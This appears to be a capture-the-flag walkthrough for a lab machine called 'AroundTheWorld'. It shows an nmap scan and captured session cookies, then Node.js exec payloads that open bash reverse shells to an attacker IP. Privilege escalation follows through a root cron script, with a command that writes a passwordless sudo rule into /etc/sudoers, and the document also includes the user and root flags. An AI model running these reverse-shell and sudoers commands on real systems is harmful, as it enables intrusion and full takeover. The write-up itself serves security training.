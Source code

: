 # AroundTheWorld

## Enumeration

```bash
└─$ nmap -sV -A -p- -sC -T4 10.10.3.188                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 11:25 BST
Nmap scan report for 10.10.3.188
Host is up (0.034s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Around The World
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.37 seconds
```
## Exploitation

### Sessions cookie with Burp Suite for the exploit

```bash
marius = connect.sid=s%3AYEh3XOXfeJ4VmlYmq7JRYp6waS-y555e.Ts929QOfsFRtzp%2FT3bT9nOizyk1LRI5oYZTlTe8vRZs

clement = connect.sid=s%3A40X2GhAa_PU5sozzpjJJkN4O2xcwURpc.FW0yOOX%2BMZeltzwEL8HXypG167cJU1A9FMVop3uE6TM

yes 1 | head -n 10000 > gold.txt

./script.py

require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4447 <&1'")
require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4444 <&1'")
```
### Got a reverse shell as simple user

#### Spawn an upgrade shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User FLAG

```bashcat user.txt``` = EPI{we_R_HuM4N2_4f7eR_4ll}

## Privilege Escalation

### Got a shell as tb3 who has more rights
```bash
sudo -u tb3 /bin/bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

./pspy64 :

2024/05/28 12:05:55 CMD: UID=0     PID=2      | 
2024/05/28 12:05:55 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2024/05/28 12:06:01 CMD: UID=0     PID=1685   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1684   | rm /home/gm08/admin/log.jukebox 
2024/05/28 12:06:01 CMD: UID=0     PID=1683   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1682   | /bin/sh /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1681   | /bin/sh -c /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1680   | /bin/sh -c /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1679   | /usr/sbin/CRON -f 
2024/05/28 12:06:01 CMD: UID=0     PID=1678   | /usr/sbin/CRON -f

tb3@aroundtheworld:~/admin$ cat clean_logs.sh 
rm /home/gm08/admin/log.jukebox

./jukebox clean_logs.sh

eecchhoo  ""ttbb33  AALLLL==((AALLLL::AALLLL))  NNOOPPAASSSSWWDD  //bbiinn//bbaasshh""  >> //eettcc//ssuuddooeerrss

sudo chown luffy:luffy /root
ssuuddoo  cchhoowwnn  ttbb33::ttbb33  //rroooott

ccaatt  //rroooott//rroooott..ttxxtt  >>  //hhoommee//ttbb33//rroooott..ttxxtt
```

## Root FLAG
```bash
cat root.txt``` = EPI{172_4m421n9_WH@_JOoll_ph1ND_ph4c3_7o_Ph4c3}
